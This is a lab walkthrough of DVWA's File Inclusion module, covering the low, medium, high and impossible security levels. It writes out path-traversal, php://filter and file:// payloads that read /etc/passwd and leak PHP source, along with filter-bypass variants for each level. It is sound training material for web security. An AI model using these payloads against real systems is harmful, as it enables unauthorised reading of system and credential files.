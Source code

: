 ```yaml
---
description: http://localhost/DVWA/vulnerabilities/fi
---
```


# File Inclusion

<details>

<summary>What is a File Inclusion?</summary>

A **file inclusion** attack is a type of security exploit that takes advantage of improper or unchecked input handling in web applications. The goal of such an attack is to include files on a server through the web browser. There are two main types of file inclusion attacks: Local File Inclusion (LFI) and Remote File Inclusion (RFI).

1. **Local File Inclusion (LFI):**
   * In an LFI attack, an attacker tries to include files that are already present on the target system. These files could be configuration files, system files, or any other sensitive information.
   * The attacker manipulates input parameters or user-controlled data in a way that the application includes a file from the local file system.
   * For example, if a web application includes a file based on user input without proper validation, an attacker might input a malicious path to include sensitive files.
2. **Remote File Inclusion (RFI):**
   * RFI is a more severe form of file inclusion attack where the attacker includes files from a remote server controlled by them.
   * The attacker injects a URL pointing to a file on a remote server into a parameter or input field, and the application fetches and includes the contents of that remote file.
   * This can lead to the execution of arbitrary code on the server, potentially allowing the attacker to take control of the system.

File inclusion vulnerabilities can occur due to poor input validation and lack of proper security measures in web applications. To prevent file inclusion attacks, developers should:

* Validate and sanitize user input.
* Avoid dynamically including files based on user input without proper validation.
* Implement proper access controls to restrict file access.
* Use secure coding practices and frameworks that handle user input securely.

Regular security assessments, code reviews, and penetration testing can help identify and mitigate file inclusion vulnerabilities in web applications.

</details>

{% hint style="info" %}
Using BurpSuite and the FoxyProxy extension is recommended.
{% endhint %}

## Low

We've a div containing three distinct hyperlinks, each triggering the display of various files within the web application upon activation. The exhibition of a specific file is accomplished through the utilization of the subsequent GET request.

<div align="left">

<figure><img src="../.gitbook/assets/image (105).png" alt=""><figcaption></figcaption></figure>

</div>

<figure><img src="../.gitbook/assets/image (106).png" alt=""><figcaption><p>file1.pho</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (107).png" alt=""><figcaption><p>file2.php</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (108).png" alt=""><figcaption><p>file3.php</p></figcaption></figure>

<div align="left">

<figure><img src="../.gitbook/assets/image (109).png" alt=""><figcaption></figcaption></figure>

</div>

```http
GET /DVWA/vulnerabilities/fi/?page=file1.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/DVWA/vulnerabilities/fi/?page=include.php
Connection: close
Cookie: security=low; PHPSESSID=s7nq882ng75b21h8b8uc4rmaod
Upgrade-Insecure-Requests: 1
```

This is php code of this level:

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

The concept involves manipulating the filename within the page parameter to any desired file on the target, enabling us to retrieve its contents. By employing the following GET request, we can read the contents of the etc password file.

#### 1st Payload

```url
http://localhost/DVWA/vulnerabilities/fi/?page=../../../../../../etc/passwd
```

Replacing this path: `../../../../../../etc/passwd` at file1.php, we obtain result of command in html output:

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

If the goal is to disclose certain PHP code, one approach is to utilize PHP filters to encode the PHP code into base64.

#### 2nd Payload

```url
http://localhost/DVWA/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd
```

but the request is to see `fi.php` file, then we use this URL:

```
http://evil/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=../../../../../var/www/html/hackable/flags/fi.php
```

which gives us the following base64 payload

```bash
PD9waHAKCmlmKCAhZGVmaW5lZCggJ0RWV0FfV0VCX1BBR0VfVE9fUk9PVCcgKSApIHsKCWV4aXQgKCJOaWNlIHRyeSA7LSkuIFVzZSB0aGUgZmlsZSBpbmNsdWRlIG5leHQgdGltZSEiKTsKfQoKPz4KCjEuKSBCb25kLiBKYW1lcyBCb25kCgo8P3BocAoKZWNobyAiMi4pIE15IG5hbWUgaXMgU2hlcmxvY2sgSG9sbWVzLiBJdCBpcyBteSBidXNpbmVzcyB0byBrbm93IHdoYXQgb3RoZXIgcGVvcGxlIGRvbid0IGtub3cuXG5cbjxiciAvPjxiciAvPlxuIjsKCiRsaW5lMyA9ICIzLikgUm9tZW8sIFJvbWVvISBXaGVyZWZvcmUgYXJ0IHRob3UgUm9tZW8
```

Decoding it, we obtain this php code:

```php
<?php

if( !defined( 'DVWA_WEB_PAGE_TO_ROOT' ) ) {
	exit ("Nice try ;-). Use the file include next time!");
}

?>

1.) Bond. James Bond

<?php

echo "2.) My name is Sherlock Holmes. It is my business to know what other people don't know.\n\n<br /><br />\n";

$line3 = "3.) Romeo, Romeo! Wherefore art thou Romeo?";
$line3 = "--LINE HIDDEN ;)--";
echo $line3 . "\n\n<br /><br />\n";

$line4 = "NC4pI" . "FRoZSBwb29s" . "IG9uIH" . "RoZSByb29mIG1" . "1c3QgaGF" . "2ZSBh" . "IGxlY" . "Wsu";
echo base64_decode( $line4 );

?>

<!-- 5.) The world isn't run by weapons anymore, or energy, or money. It's run by little ones and zeroes, little bits of data. It's all just electrons. -->
```

{% hint style="warning" %}
The input is not sanitized, so I can execute any (potentially malicious) command.
{% endhint %}

## Medium

<figure><img src="../.gitbook/assets/image (110).png" alt=""><figcaption></figcaption></figure>

In this case, code includes a little validation checks:

`$file = str_replace( array( "http://", "https://" ), "", $file );`\
`$file = str_replace( array( "../", "..\\" ), "", $file );`

it tries to remove all sorts of http and https protocol usage, trying to remove the possibility for a Remote File Inclusion (RFI), and it also replaces `../` with the empty string: `""`.

The handling of the '../' character sequence is insufficient, as the validation is not performed recursively.

#### 1st Payload

```bash
....//....//....//....//....//etc/passwd
```

After input validation (not recursive), changing ../ to "", we obtain this result:

```
../../../../../etc/passwd
```

Then full URL will be this:

```
http://localhost/DVWA/vulnerabilities/fi/?page=....//....//....//....//....//etc/passwd/passwd
```

\
How the low level, adding the php filters we can also leak the server’s php code:

```
http://localhost/DVWA/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=....//....//....//....//....//var/www/html/hackable/flags/fi.php
```

and we get the following base64

```
PD9waHAKCmlmKCAhZGVmaW5lZCggJ0RWV0FfV0VCX1BBR0VfVE9fUk9PVCcgKSApIHsKCWV4aXQgKCJOaWNlIHRyeSA7LSkuIFVzZSB0aGUgZmlsZSBpbmNsdWRlIG5leHQgdGltZSEiKTsKfQoKPz4KCjEuKSBCb25kLiBKYW1lcyBCb25kCgo8P3BocAoKZWNobyAiMi4pIE15IG5hbWUgaXMgU2hlcmxvY2sgSG9sbWVzLiBJdCBpcyBteSBidXNpbmVzcyB0byBrbm93IHdoYXQgb3RoZXIgcGVvcGxlIGRvbid0IGtub3cuXG5cbjxiciAvPjxiciAvPlxuIjsKCiRsaW5lMyA9ICIzLikgUm9tZW8sIFJvbWVvISBXaGVyZWZvcmUgYXJ0IHRob3UgUm9tZW8
```

To get an RFI instead we can use `php streams`.

{% hint style="warning" %}
The input is not sanitized sufficiently , so I can execute any (potentially malicious) command.
{% endhint %}

## High

<div align="left">

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

</div>

In this code the're two validation checks:

1. The `fnmatch()` function in PHP, which matches strings against patterns using shell-style wildcards. In our scenario, it matches any file that begins with 'file.'
2. The condition `$file != 'include.php'` introduces a specific case where the 'if' statement fails only when the file doesn't start with 'file' and is precisely 'include.php'.

#### 1st Payload

Regarding LFI exploitation, the code solely verifies whether the parameter begins with 'file' and does not examine its ending. Consequently, we can employ the following GET request to expose the 'passwd' file.

```
http://localhost/DVWA/vulnerabilities/fi/?page=file/../../../../../../../etc/passwd
```

however we cannot seem to able to use the php filters to leak php code by using the base64 converter.

#### 2nd Payload

An alternative approach involves leveraging the file protocol to access and read any file in the system based on its given path.

```html
http://localhost/DVWA/vulnerabilities/fi/?page=file:///etc/passwd
http://localhost/DVWA/vulnerabilities/fi/?page=file:///var/www/html/hackable/flags/fi.php
```

{% hint style="warning" %}
The input is not sanitized sufficiently , so I can execute any (potentially malicious) command.
{% endhint %}

## Impossible

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Site isn't vulnerable to File Inclusion attack because the request includes only possible lecit value/page.
{% endhint %}

## References

For the making of this solution the following resource were used:

* [https://github.com/LeonardoE95/DVWA/tree/main/src/file\_inclusion](https://github.com/LeonardoE95/DVWA/tree/main/src/file\_inclusion)
